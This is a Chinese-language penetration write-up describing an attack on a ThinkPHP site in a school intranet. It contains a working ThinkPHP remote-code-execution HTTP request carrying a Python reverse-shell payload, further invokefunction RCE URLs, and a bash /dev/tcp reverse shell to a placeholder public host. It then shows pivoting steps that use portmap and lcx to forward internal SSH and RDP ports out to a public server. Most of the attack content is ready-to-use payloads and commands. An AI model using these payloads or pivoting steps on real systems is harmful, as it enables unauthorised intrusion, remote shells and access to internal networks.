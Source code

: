 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close
d
id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http:/localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap（或者将其再类似系统上编译好了直接传到目标机器上也可以）
将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）

```
portmap --help
bkbll的套接字数据传输工具（bkbll@cnhonker.net）
用法：./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
 -v：version
 -h1：host1 
 -h2：host2 
 -p1：port1 
 -p2：port2 
 -log：记录数据
 -m：此工具的操作方法
    1：侦听PORT1并连接到HOST2：PORT2 #将内网中的h2的p2转发到处于内网的本机的p1端口
    2：侦听PORT1和PORT2 #本地端口转发
    3：连接到HOST1：PORT1和HOST2：PORT2  #将内网中的h2的p2端口转发到公网
让我退出......全部超过

E:\Desktop>lcx.exe --help
第一条和第三配合使用。如在本机上监听 -listen 51 3389，在肉鸡上运行-slave 本机ip 51 肉鸡ip 3389
那么在本地连127.0.1就可以连肉鸡的3389.第二条是本机转向。如-tran 51 127.0.0.1 3389 ==========

[Usage of Packet Transmit:]
  lcx.exe -<listen|tran|slave> <option> [-log logfile]

[option:]
  -listen <ConnectPort> <TransmitPort>
  -tran   <ConnectPort> <TransmitHost> <TransmitPort>
  -slave  <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
# lcx命令类似 顺序不相同
```
目标机上的抓发命令`./portmap -m 3 -h1 公网IP -p1 公网端口 -h2 123.123.123.124 -p2 22`  

公网服务器上进行接收`./portmap -m 2 -p1 6666 -p2 443`

此时连接ssh root@45.76.101.190 -p 443 就是相当于连接123.123.123.124的22（ssh）  
**这里面的h2不一定是目标机，只要目标机能访问到的内网资源都可以被转发**
